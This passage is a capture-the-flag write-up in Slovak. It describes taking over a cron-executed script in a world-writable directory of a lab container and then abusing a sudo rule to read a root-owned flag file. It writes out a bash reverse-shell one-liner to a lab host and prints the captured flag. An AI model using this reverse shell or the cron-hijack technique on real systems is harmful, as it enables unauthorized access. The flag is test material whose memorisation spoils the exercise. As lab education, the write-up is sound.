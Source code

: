 ```shell
log="/var/log/cups/access_log"
output="/tmp/stats.txt"

grep 'POST /printers/.*HTTP/1\.1" 200' "$log" | awk '{ print $4, $7 }' | while read -r datetime path; do
    date=$(echo "$datetime" | cut -d: -f1 | tr -d '[')
    printer=$(echo "$path" | cut -d'/' -f3)
    echo "$date $printer"
done | sort | uniq -c | sort -nr > "$output"l
```

Pri pokuse o modifikovanie skriptu som dostal hlášku, že nemôžem

```shell
lp@ea3246f8dec9:/opt/scripts$ echo > print_count.sh
bash: print_count.sh: Permission denied
```

Ale podľa permissions `drwxr-xrwx 1 root cronexec 4096 Oct 21 16:25 scripts` priečinka `/opt/scripts` môžem súbor zmazať a vytvoriť svoj s rovnakým názvom. Skúsim tam nahrať ďalší reverse shell príkaz a skúsim počúvať o port vyššie `9011`.

Vytvoril som si súbor `print_count.sh` s obsahom

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.200.0.11/9011 0>&1"
```

a cron ho do minúty spustil a mám shell session ako používateľ cuprs_admin.

```shell
cups_admin@ea3246f8dec9:~$ ls -la
total 20
drwxr-xr-x 2 cups_admin cups_admin 4096 Oct 21 04:01 .
drwxr-xr-x 1 root       root       4096 Oct 21 04:01 ..
-rw-r--r-- 1 cups_admin cups_admin  220 Jun  6 14:38 .bash_logout
-rw-r--r-- 1 cups_admin cups_admin 3526 Jun  6 14:38 .bashrc
-rw-r--r-- 1 cups_admin cups_admin  807 Jun  6 14:38 .profile
```

skúsil som `sudo -l`, ktoré som tu predtým neopísal, ale ako lp používateľovi nešlo a pýtalo heslo, ale tu išlo a zobrazilo

```shell
cups_admin@ea3246f8dec9:~$ sudo -l
Matching Defaults entries for cups_admin on ea3246f8dec9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cups_admin may run the following commands on ea3246f8dec9:
    (ALL) NOPASSWD: /bin/cat /root/TODO.txt
```

ako používateľ cups_admin mám možnosť zadať jeden príkaz pomocou sudo bez nutnosti zadania root hesla a to `/bin/cat /root/TODO.txt`, takže zadám `sudo /bin/cat /root/TODO.txt`

```shell
cups_admin@ea3246f8dec9:~$ sudo /bin/cat /root/TODO.txt
FLAG{HqW1-cHIN-6S8U-w5uQ}
```

Hotovo!

## Vlajka

    FLAG{HqW1-cHIN-6S8U-w5uQ}

